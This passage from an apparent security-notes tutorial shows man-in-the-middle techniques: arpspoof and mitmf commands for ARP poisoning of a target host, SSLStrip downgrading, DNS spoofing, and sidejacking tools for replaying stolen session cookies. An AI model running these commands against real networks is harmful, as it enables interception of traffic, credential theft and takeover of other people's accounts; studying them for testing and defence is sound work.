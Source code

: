 # POISONING USING ARPSPOOF
$ sudo arpspoof -i wlan0 -t 192.168.1.55 192.168.1.1
# poisons the target 192.168.1.55 using the wlan0 (wireless)
# network interface with the router being IP 192.168.1.1
# can now use something like Wireshark to inspect traffic

# POISONING USING MITMF
# note that mitmf auto-loads SSLStrip (downgrading HTTPS connections)
# automatically, which the user may notice
$ sudo mitmf --arp --spoof --gateway 192.168.1.1 --target 192.168.1.55 -i wlan0
# will output information as the user browses the internet
{% endhighlight %}

#### Session Hijacking

Now that we can become the man in the middle, we can also session hijack, which is useful if
the user utilizes things such as "remember me" features in websites. This functionality saves
the user credential information in cookies/session data within their browser, which can be
sniffed and hijacked/executed using the following tools:

* [hamster-sidejack](https://tools.kali.org/sniffingspoofing/hamster-sidejack)
* [ferret-sidejack](https://pkg.kali.org/pkg/ferret-sidejack)

When used in conjunction with a man-in-the-middle attack, the above tools can be used to
hijack and replicate the stolen session information, allowing the hacker to log into the
suspect's accounts. Examples won't be given here as they are difficult to enumerate via
text and the websites have very good and detailed examples already.

#### DNS Spoofing

DNS spoofing allows for directing a user attempting to access some website to a completely
different target endpoint and can be used in conjunction with a man-in-the-middle attack.

{% highlight bash %}
# Host: kali.localhost
$ sudo mitmf --arp --spoof --gateway 192.168.1.1 --target 192.168.1.55 -i wlan0 --dns
# above command loads the DNS spoofing library
{% endhighlight %}
